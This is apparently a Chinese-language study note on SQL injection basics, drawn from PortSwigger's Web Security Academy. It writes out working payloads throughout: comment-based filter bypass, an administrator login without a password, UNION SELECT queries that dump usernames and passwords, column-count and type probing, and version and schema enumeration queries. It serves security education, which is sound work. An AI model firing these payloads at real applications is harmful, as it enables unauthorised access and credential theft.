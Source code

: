 # SQL injection入门

这是[PortSwigger/Web Security Academy/SQL injection](https://portswigger.net/web-security/sql-injection)的学习笔记。

非常基础的东西，可以用来了解SQL注入的常规用法。

不同的数据库有不同的语法，本文不做深入，需要的同学可以参考[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## 获取隐藏数据

注释掉后面的条件

SELECT * FROM products WHERE category = 'Gifts`'--`' AND released = 1

查询出所有的products

SELECT * FROM products WHERE category = 'Gifts`' OR 1=1--`' AND released = 1

## 改变程序逻辑

无密码登录

SELECT * FROM users WHERE username = 'administrator`'--`' AND password = ''

## 获取另一个表中的数据

列出所有的用户名和密码

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT username, password FROM users--`'

UNION攻击需要满足两个条件：
1. 列数与原来的查询相同
2. 数据类型与原来的查询兼容

### 判断列数的方法

使用ORDER BY N排序，当N超出列数时报错

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 1--`'

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 2--`'

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 3--`'

使用UNION SELECT NULL，当NULL的个数与列数一致时不报错

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT NULL--`'

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT NULL,NULL--`'

### 测试列的数据类型

得到列的数量后，就需要测试列的数据类型，原理是类型不匹配时会报错

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT 'a',NULL--`'

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT NULL,'a'--`'

### 在一列中获取多个数据

有时候需要获取多个数据但是只有一个展示列，这时就需要合并数据

SELECT name FROM products WHERE category = 'Gifts`' UNION SELECT username || '~' || password FROM users--`'

多个列需要用NULL占位

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT NULL, username || '~' || password FROM users--`'

## 检测数据库

发现SQL注入漏洞后，下一步是获取所用数据库的信息。

### 获取数据库的类型和版本

Database type|Query
---|---
Microsoft, MySQL|SELECT @@version
Oracle|SELECT banner FROM v$version
PostgreSQL|SELECT version()

### 获取数据库的表名和列名

Database type|Query
---|---
Microsoft, MySQL,PostgreSQL|SELECT table_name FROM information_schema.tables<br>SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
Oracle|SELECT table_name FROM all_tables<br>SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
